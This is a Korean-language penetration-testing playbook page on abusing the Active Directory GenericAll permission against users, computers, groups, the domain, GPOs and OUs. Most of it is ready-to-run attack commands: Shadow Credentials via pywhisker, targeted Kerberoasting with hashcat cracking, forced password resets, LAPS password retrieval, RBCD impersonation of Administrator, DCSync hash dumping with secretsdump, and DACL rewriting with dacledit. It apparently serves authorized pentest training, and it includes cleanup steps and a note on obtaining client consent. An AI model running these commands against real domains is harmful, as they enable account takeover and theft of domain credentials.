





# GenericAll

* 대상의 거의 모든 액티브 디렉토리 특성을 READ/WRITE 할 수 있는 권한. 사실상 대상의 소유권한(Owner Rights)을 가지고 있는 것이나 다름 없다. 대상의 종류와 상관 없이 (유저, 컴퓨터, 그룹, 도메인) 사실상 대상을 바로 장악할 수 있다.
* 공식 액티브 디렉토리 권한

대상에 따라 `GenericAll` DACL을 악용할 수 있는 방법도 다르다.

* 유저: 계정 장악
* 컴퓨터: 머신 계정 장악 + 로컬 관리자 권한 획득
* 그룹: 그룹에 공격자 유저 추가
* 도메인: DCSync 기능 사용 가능

<figure><figcaption></figcaption></figure>

## 악용 - 유저

<figure><figcaption></figcaption></figure>

1. Shadow Credentials: `msDS-KeyCredentialsLink` 에 공격자 공개 키를 추가한 뒤, PKINIT을 이용해 사용자 인증을 한다
2. Targeted Kerberoast: 대상 유저 계정에 SPN을 추가한 뒤 해당 유저만 Kerberoasting 공격을 실행한다
3. Force Change Password: 대상 유저 계정의 비밀번호를 강제로 바꾼다

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

### Targeted Kerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse

hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### Force Change Password

```
# 윈도우 머신 필요. TODO: Impacket이나 다른 툴 알아보기 
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 컴퓨터

<figure><figcaption></figcaption></figure>

다음과 같은 공격으로 머신 계정을 장악한다.

1. Retrieve LAPS
2. RBCD
3. Shadow Credentials

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

### RBCD

```
# 공격 
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action write domain.com/user:pass
getST.py -spn CIFS/targetcomp.domain.com -impersonate Administrator domain.com/'TEST1337$':'SUPERDUPERLONGPASSWD31337YOHEY#'

# 마무리 후 클린업 
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action remove domain.com/user:pass
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass -delete
```

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

## 악용 - 그룹

* 유저 그룹에 도메인 유저를 추가할 수 있는 `AddMember` 권한을 얻은 것이나 다름 없기에 그룹에 공격자의 유저를 추가하면 된다.

```
# 윈도우 머신 필요. TODO: Impacket 혹은 리눅스 툴 알아보기 
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

## 악용 - 도메인

다음과 같은 공격으로 컴퓨터 및 도메인을 장악한다.

1. DCSync: `GenericAll` 의 경우 `AllExtendedRights` 권한을 포함한다. 이 권한은 `DS-Replication-Get-Changes` 및 `DS-Replication-Get-Changes-All` 권한을 포함하는데, 이 권한을 갖고 있다면 DCSync를 실행할 수 있다.
2. LAPS: LAPS 비밀번호들을 읽어올 수 있다.
3. DCSync

### DCSync

```
cme smb <dc> -u user -p pass --ntds [vss,drsuapi]
secretsdump.py domain.com/user:pass@<dc>
```

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

## 악용 - GPO

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 정확히 GenericAll 은 아니지만, 가장 많은 권한을 부여할 경우 GenericWrite, WriteOwner, WriteDACL 권한을 부여받을 수 있다.
  * GPO Enforced + Child Objects with Block Inheritance DISABLED 의 경우 스크린샷처럼 점선이 아닌 실선으로 나타나는데, 이때는 악용이 가능한 상태다. GPO Enforced 와 Block Inheritance 관련된 레퍼런스가 있으나, 너무 길어질까봐 생략한다.
* GPO에 따라 다르겠지만, 위 GPO의 경우 Domain Users 및 Domain Computers 에 링크가 된 상태다. 따라서 Evil GPO 형식의 공격이 가능하다.
* 컴퓨터의 경우 리버스쉘을 받거나, 로컬 관리자 유저 등을 추가할 수 있다. 단, 실제 모의해킹에서 GPO 관련된 공격은 최대한 자제하고, 고객사의 동의를 얻는 것이 좋다. GPO 잘못 건드렸다가 고객사의 모든 도메인 유저와 도메인 컴퓨터들을 망쳐버린 뒤 수억원의 소송에 휘말리기 싫다면 말이다.
  * GPO Abuse 의 문제점은, 공격 자체는 쉬운데 그걸 되돌리기가 까다롭다는 것이다. 따라서 실제 모의해킹시 잘 사용되지 않는다.

```
https://github.com/Hackndo/pyGPOAbuse.git
```

* 실제 모의해킹에서도 GPO Abuse 는 제대로 진행하지 않기에 이 플레이북에서도 실습은 패스한다.

## 악용 - OU와 Containers

<figure><figcaption></figcaption></figure>

* OU나 Container에 GenericAll 등의 권한이 있을 경우 DACL을 추가하거나 수정하는 형식으로 공격자 유저 계정에 추가적인 권한을 부여할 수 있다.
* 이때, `Inheritance` 를 이용해 OU나 Container에 속하는 모든 객체들에게 DACL이 수정되기 때문에 꼭 되돌리기를 사용해야한다.

```
# DACL 수정 
dacledit.py -action write -rights FullControl -inheritance -principal 'JKHOLER' -target-dn 'OUDistinguishedName' 'domain'/'user':'password'

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```
